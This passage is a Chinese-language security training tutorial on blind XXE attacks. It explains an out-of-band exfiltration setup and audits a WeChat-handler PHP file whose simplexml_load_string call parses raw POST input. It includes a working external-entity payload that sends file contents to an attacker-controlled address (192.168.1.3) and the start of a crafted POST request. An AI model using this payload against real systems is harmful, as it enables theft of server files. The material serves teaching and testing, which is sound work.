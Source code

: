 ### 炮台概念介绍

```php
1.xml  // 使用 system 导入的外部 xml 实体
2.php  // 带外数据接收的炮台 (不一定是 php) ， 只要能接受发送过来的数据， 就是 2.php
3.txt  // 带外数据接收者。 这里使用 3.txt 是为了形象的表示数据信息
```

这里只是一句口诀而已。 不要纠结 `php, txt` 的后缀， 只要能满足 **接收(php)，存储(txt)** 的功能就行。


#### 1.xml

将数据发送到炮台

```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.3/xxe/2.php?id=%file;'>"
>
%all;
```

其中 `http://192.168.1.3/xxe/2.php` 就是 `2.php` 带外接受炮台
其中 `id=%file` 就是 `3.txt` ， 带外数据接收者。



## 练习

### 1. 代码审计

通过代码审计， 找到 `weixin/index.php` 文件中， `31 ~ 35` 行代码有利用可能

**32行** 代码，使用 `file_get_contests` 获取了外部数据
**33行** 代码， 使用 `simplexml_load_string` 进行了解析

![](https://nc0.cdn.zkaq.cn/md/8461/0a809d087fd976e0fa5876d593f4d544_18950.png)

```
if ($signature != "" && $echostr == "") {
    $postArr = file_get_contents("php://input");
    $postObj = simplexml_load_string($postArr);
    $ToUserName = $postObj->FromUserName;
    $FromUserName = $postObj->ToUserName;
    $MsgType = $postObj->MsgType;
    $strEvent = $postObj->Event;
    $EventKey = $postObj->EventKey;
```


其中， 根据执行条件 
1. `signature!=""` 不为空
2. `echostr=""` 为空。 注意， **为空和不存在**  在编程语言中的判断中是不一样的。 **为空** 值的是 **变量`存在`**  但 **值** 为空。

因此构造出 POST 请求

```
POST /weixin/index.php?signature=123&echostr= HTTP/1.1
```
